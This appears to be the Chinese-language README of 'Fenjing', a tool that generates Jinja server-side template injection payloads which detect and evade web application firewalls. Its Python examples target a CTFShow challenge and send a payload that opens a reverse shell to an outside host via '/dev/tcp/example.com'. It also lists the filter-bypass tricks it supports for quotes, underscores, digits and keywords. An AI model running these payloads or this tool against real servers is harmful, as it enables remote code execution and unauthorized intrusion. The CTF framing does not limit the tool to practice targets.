 ![](./fenjing.webp)

> Bypassing the WAF without knowing WAF

## 介绍

焚靖是一个针对Jinja SSTI的Payload生成器，支持自动检测WAF并尝试绕过

## 使用

示例：[CTFShow]web372

首先写一个函数，这个函数接受一个字符串，如果这个字符串包含会被WAF的字符，则返回False，否则返回True

```python
@functools.lru_cache
def waf(s: str):

    time.sleep(0.1)
    r = requests.get(url, params = {
        "name": s
    })

    return r.text != ":("
```

然后将这个函数和你要运行的shell命令传给模块，即可生成payload

```python
payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3003 0>&1\"")
```

完整示例：

```python
from ssti import shell_cmd

import functools
import time
import requests
import logging

logging.basicConfig(level = logging.WARNING)

# ctf.show web372
url = "http://ddde51f2-ff61-4f88-a9a7-3af3654a76b8.challenge.ctf.show/"

@functools.lru_cache
def waf(s: str):
    time.sleep(0.1)
    r = requests.get(url, params = {
        "name": s
    })

    return r.text != ":("

payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

r = requests.get(url, params = {
    "name": payload
})

print(r.text)
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


### 测试绕过：

```python
from ssti import shell_cmd
import logging

logging.basicConfig(level = logging.WARNING)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "request", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]

    for word in blacklist:
        if word in s:
            return False
    return True

payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

print(payload)
```

